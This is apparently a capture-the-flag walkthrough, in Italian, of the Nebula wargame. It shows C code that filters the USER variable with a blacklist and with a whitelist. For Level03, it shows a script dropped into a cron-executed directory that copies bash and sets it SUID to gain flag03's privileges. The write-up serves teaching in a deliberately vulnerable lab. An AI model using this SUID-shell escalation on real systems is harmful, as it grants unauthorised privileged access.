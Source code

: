 #### Fix: implementazione di una blacklist per filtrare USER
Si crea una blacklist contenente tutti i caratteri vietati nel nome utente, se almeno uno è presente in *$USER* allora il programma termina con errore. Superata questa fase di filtro viene effettuata la validazione: se lo *$USER* inizia con - o con _ potrebbe causare problemi e viene scartato.
```c
/* sanitizing */
if ((strpbrk(buffer, invalid_chars)) != NULL) {
    perror("strpbrk");
    exit(EXIT_FAILURE);
}
/* validating */
if (getenv("USER")[0] == '-' || getenv("USER")[0] == '_') {
    printf("Invalid username.\n");
    exit(EXIT_FAILURE);
}
```

#### Fix: implementazione di una whitelist per filtrare USER
In questo caso la fase di filtro viene effettuata da una whitelist che verifica che *$USER* contenga solamente caratteri alfanumerici e/o - e _
```c
p = getenv("USER");
while (*p != 0) {
if (isalnum(*p) || *p == '-' || *p == '_')
    p++;
else {
    printf("Invalid username.\n");
    exit(EXIT_FAILURE);
}
}
```

### Level03

Il file /home/flag03/writable.sh viene chiamato da un *crontab* ogni 2 minuti. Per verificare:

```bash
su – nebula
sudo -i
su – flag03
crontab -l
```

Esegue tutti i file contenuti in *writable.d* per 5 secondi. Quindi è possibile eseguire un file arbitrario con i permessi di flag03. L'obiettivo è quello di spawnare una shell con i permessi di flag03.

Si crea uno script e lo si mette in *writable.d*. Lo script copia il binario di bash in un file e lo rende SUID, in modo che eseguendo quella bash si otterranno i permessi di flag03.

```bash
nano src.sh
### inizio script
#!/bin/bash
cp /bin/bash /home/flag03/bash
chmod u+s /home/flag03/bash
### fine script
cp src.sh /home/flag03/writable.d

```

